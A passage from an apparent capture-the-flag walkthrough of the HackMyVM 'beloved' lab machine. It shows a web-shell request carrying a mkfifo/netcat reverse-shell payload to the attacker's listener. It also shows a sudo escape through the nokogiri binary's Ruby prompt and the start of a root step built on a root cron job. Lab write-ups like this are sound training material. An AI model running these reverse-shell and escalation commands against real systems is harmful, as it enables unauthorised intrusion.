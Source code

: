 {% highlight shell %}
GET http://beloved/wp-content/uploads/2021/12/lclrllrwcivibto-1640165637.6884.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.1.210+1234+>/tmp/f HTTP/1.1
{% endhighlight %}

Shell time:

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/beloved]
└─# nc -nvlp 1234  
listening on [any] 1234 ...
connect to [192.168.1.210] from (UNKNOWN) [192.168.1.73] 49890
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@beloved:/var/www/html/wordpress/wp-content/uploads/2021/12$
{% endhighlight %}

## Privesc
A few slightly different things here. Firstly, *nokogiri*:

{% highlight shell %}
www-data@beloved:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on beloved:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on beloved:
    (beloved) NOPASSWD: /usr/local/bin/nokogiri
www-data@beloved:/tmp$
{% endhighlight %}

What the hell is that? GTFOBins doesn't have an entry. It's a Ruby XML [parser](https://nokogiri.org/), uh yay I guess. 

{% highlight shell %}
www-data@beloved:/tmp$ sudo -u beloved /usr/local/bin/nokogiri https://www.google.com
<oved /usr/local/bin/nokogiri https://www.google.com
Your document is stored in @doc...
irb(main):001:0> system("bash")
system("bash")
beloved@beloved:/tmp$ whoami
whoami
{% endhighlight %}

For some reason that I couldn't be bothered reading about, putting a URL gives you an IRB (interactive Ruby) prompt, so let's just go with that.

## Root
I noticed we owned /opt, so I ran pspy64 in case there was a cron - something funny was going on. Sure enough:

``
2021/12/22 11:11:01 CMD: UID=0    PID=31493  | /bin/sh -c cd /opt && chown root:root * 
``
